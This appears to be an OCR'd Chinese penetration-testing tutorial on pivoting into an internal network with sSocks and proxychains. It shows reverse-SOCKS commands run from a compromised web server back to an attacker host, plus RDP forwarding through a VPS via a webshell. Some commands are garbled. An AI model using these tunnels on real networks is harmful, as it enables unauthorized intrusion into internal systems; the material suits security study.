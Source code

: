 # 利用ssocks进行内网穿透

sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，而proxychains代理链是Linux下一款代理设置工具。由于Ssocks不稳定，所以不建议使用。

现在有这么一个环境，我们获取到了位于公网Web服务器的shell，该web服务器是Linux系统，内网中存在另外一台主机，这里假设内网存在一台Web服务器。然后，我们现在要将公网Web服务器设置为代理，访问和探测内网Web服务器的信息。

首先，我们的主机和公网的Web服务器都得安装上Ssocks。

proxychains的话 linux(基于debian)下直接apt install proxychains 就可以了

####Web服务器的操作

```
./rssocks -vv -s 100.100.10.13:9999   #接收100.100.10.13的9999端口的流量

```

![](images/15897827417363.png)


## 主机的操作

```
首先配置proxychains代理链的配置文件，把最后的内容改成  socks5 127.0.0.1 8080 

./rcsocks -l 1080 -p 9999 -vv   #然后将本地的1080端口的流量转发到9999端口

接下来，我们想要访问和操作操作内网主机192.168.10.19的话，只需要在命令前面加上 proxychains
比如，获得内网Web服务器的网页文件： proxychains curl 192.168.10.19

```

![](images/15897827483376.png)


![](images/15897827514968.png)


## ssocks转发的其他操作

```bash
第一步，用sSocks在VPS上建立3388与3389端口对应关系，实现流量互通：

root @ kali：〜＃/ root / ssocks-0.0.14 / src / rcsocks -l 3389 -p 3389 -vv

第二步，从攻击端连接VPS的3388端口，建议用freerdp而非rdesktop，因为前者支持远程与本地连接等待，文本复制粘贴，挂载远程文件系统：

root @kali：〜＃xfreerdp / u：administrator / p：admin / v：【你的ip】：3389

第三步，立即在大马上执行端口转发，可能需要连续多次点击开始：

注意，整个过程对步骤先后顺序敏感，VPS上rcsocks端口映射好以后就可以不管了，先在攻击端执行xfreerdp，让其会话保持，再在webshel​​l上转发内网的3389。

```

